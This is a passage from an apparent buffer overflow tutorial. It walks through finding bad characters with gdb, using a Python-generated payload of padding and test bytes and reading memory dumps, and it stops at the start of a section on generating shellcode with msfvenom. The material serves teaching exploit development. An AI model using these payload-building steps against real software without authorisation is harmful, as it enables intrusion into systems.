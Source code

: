 You can see here we remove `\x00` in our character list so when we run that command now we see the output like the following
```
0xffffd5d8:     0x55    0x55    0x55    0x55    0x55    0x01    0x02    0x03  
0xffffd5e0:     0x04    0x05    0x06    0x07    0x08    0x00    0x0b    0x0c
<snip..>
```
There we see after `0x08` we expect `0x09` but we didn't see it so that's our second bad character so we remove it also so now our command after removing is like this
```
(gdb) run $(python -c 'print "\x55"*(1040-256-4)+ "\x01\x02\x03\x04\x05\x06\x07\x08\x0b\x0c\x0d\x0e\x0f\x10\x11\x12  
\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2  
f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x  
4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\  
x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85  
\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa  
2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\x  
bf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\  
xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8  
\xf9\xfa\xfb\xfc\xfd\xfe\xff"+ "\x66"*4')
```
There we remove our `\x09` and after we again use `x/2000xb $esp+500` command to see the register values and now our output like this
```
0xffffd5d8:     0x55    0x55    0x55    0x55    0x55    0x55    0x01    0x02  
0xffffd5e0:     0x03    0x04    0x05    0x06    0x07    0x08    0x0b    0x0c  
---Type <return> to continue, or q <return> to quit---  
0xffffd5e8:     0x0d    0x0e    0x0f    0x10    0x11    0x12    0x13    0x14  
0xffffd5f0:     0x15    0x16    0x17    0x18    0x19    0x1a    0x1b    0x1c  
0xffffd5f8:     0x1d    0x1e    0x1f    0x00    0x21    0x22    0x23    0x24

```
There we see after `0x08` we expect `0x09` that we remove from our list but after that we see `0x0b` so they skip `0x0a` so that our third bad character so we remove it also and in manner we have to find all the bad characters and we can see `0x20` is also skip and after that everything is all right so we got our four bad characters `0x00` `0x09` `0x0a` `0x20`

**Page 9 / Generating Shellcode**

# Generating Shellcode

We already got to know the tool `msfvenom` with which we generated our shellcode's approximate length. Now we can use this tool again to generate the actual shellcode, which makes the CPU of our target system execute the command we want to have.
